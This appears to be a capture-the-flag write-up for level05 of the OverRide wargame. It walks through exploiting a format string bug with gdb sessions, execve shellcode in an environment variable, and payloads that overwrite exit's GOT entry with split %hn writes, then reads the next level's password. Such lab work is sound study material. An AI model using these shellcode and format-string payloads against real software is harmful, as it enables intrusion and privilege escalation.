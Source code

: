 
fuzzing phase
 p (char *) getenv("SHELLCODE"
```
level05@OverRide:~$ ./level05
ssss
ssss

level05@OverRide:~$ ./level05
AbCdE
abcde

obiously some format string here

level05@OverRide:~$ ./level05
%p %p %p

level05@OverRide:~$ (python -c 'print "AAAA" + " %p " * 10') | ./level05
aaaa 0x64  0xf7fcfac0  0xf7ec3af9  0xffffd6bf  0xffffd6be  (nil)  0xffffffff  0xffffd744  0xf7fdb000  0x61616161

level05@OverRide:~$ (python -c 'print "AAAA" + " %10$p "') | ./level05
aaaa 0x61616161
```

lets jump into jdb 

```
   0x08048507 <main+195>:	call   0x8048340 <printf@plt>
   0x0804850c <main+200>:	movl   $0x0,(%esp)
   0x08048513 <main+207>:	call   0x8048370 <exit@plt>
```   
   its GOT obviously

```
call   0x8048370 <exit@plt>

(gdb) x 0x8048370
   0x8048370 <exit@plt>:	jmp    *0x80497e0
```

```
export shellcode=$(python -c 'print "\x90" * 300 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

```
x/600wx $esp
0xffffde60:	0x90909090	0x90909090	0x90909090	0x90909090


(gdb) p 0x80497e0  = 134518752
(gdb) p 0xffffde60 - 4 = 4294958684

```

```
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "%4294958684d%10$n"' ; cat) | ./level05 > /dev/null
id 1>&2
```

mmm smthg wrong

lets debug the assembly

```

=> 0x8048466 <main+34>:	movl   $0x64,0x4(%esp)
   0x804846e <main+42>:	lea    0x28(%esp),%eax
   0x8048472 <main+46>:	mov    %eax,(%esp)
   0x8048475 <main+49>:	call   0x8048350 <fgets@plt>
   
buffer of size 100 stored at esp + 0x28
```
```
0x08048495 <+81>:	cmp    $0x40,%al

0x080484a7 <+99>:	cmp    $0x5a,%al
```
The code checks if the character is less than or equal to 0x40, which corresponds to '@' in ASCII,
and if it is greater than 0x5a, which corresponds to 'Z' in ASCII.
If the character is within this range,
the code jumps to the main+135 address, which indicates that the input is invalid.

 0x080484cb <+135>:	addl   $0x1,0x8c(%esp)

```
'A' 0x41 65    XOR     32

01000001 = 65 = 'A'
XOR
00100000 = 32

01100001 = 97 = 'a'

python3 -c "print(65 ^ 32)"
97
```

```
level05@OverRide:~$ (python -c 'print "AAAA" + "BBBB" " %10$p %11$p"') | ./level05
aaaabbbb 0x61616161 0x62626262
```
the addresses in the stack are as follows
```
(gdb) x/900 $esp
0xffffd3c0
0xffffd3d0
0xffffd3e0
```
p 0xffffd3c0 = 4294955968

too long values, which results to negative value in signed 2's complement (-11328)

so we need to split the value if we want to properly override exit.GOT 

```
shellAddr = 0xMsbLsb
 
Lsb - 4 - 4 (already printed 2 addr)
Msb - Lsb = 0xffff - Lsb

exmpl:

0xffffdc59

(gdb) p 0xdc59 - 8 = 56401
(gdb) p 0xffff - 0xdc59 = 9126
```

As for the shellcode the while loop lower case the content of the buffer,
so it prevents us from executing any shellcode that contains bytes which values range between 0x40 and 0x5a.
we ll inject it in the env
```
(gdb) x/900 $esp

0xffffdd00:	0x90909090	0x90909090	0x90909090	0x90909090

(gdb) p 0xdd00 - 8        = 56568
(gdb) p 0xffff - 0xdd00   = 8959


level05@OverRide:~$ (python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%56568d%10$n%8959d%11$n"' ; cat) | ./level05 > /dev/null
whoami 1>&2
level06
pwd 1>&2
/home/users/level05
cat /home/users/level06/.pass 1>&2
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

```

```
define hook-stop
   x/10i $eip
   echo "\n--------------------\n"
   x/x 0x80497e0

r

=> 0x8048507 <main+195>:	call   0x8048340 <printf@plt>
   0x804850c <main+200>:	movl   $0x0,(%esp)
   0x8048513 <main+207>:	call   0x8048370 <exit@plt>
--------------------
"0x80497e0 <exit@got.plt>:	0x08048376

ni

--------------------
"0x80497e0 <exit@got.plt>:	0xffffdd00

```


```py
import struct

exit_addr = struct.pack ("I", 0x80497e0)
exit_addr += struct.pack ("I", 0x80497e0 + 2)
print exit_addr  + "%56984d%10$n" + "%8543d%11$n"
```

more organized syntax

```py
import struct

shell_addr = 0xffffdea0

exit_addr = struct.pack ("I", 0x80497e0)
exit_addr += struct.pack ("I", 0x80497e0 + 2)

shell_msb = shell_addr >> 16
shell_lsb = shell_addr & 0xffff


print exit_addr  + "%" + str(shell_lsb - 8) + "d%10$hn" + "%" + str(shell_msb - shell_lsb) + "d%11$hn"
```

```
level05@OverRide:~$ python /tmp/pyload.py > /tmp/pyload

level05@OverRide:~$ (cat /tmp/pyload; cat) | ./level05 > /dev/null
pwd 1>&2
/home/users/level05
cat /home/users/level06/.pass 1>&2
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
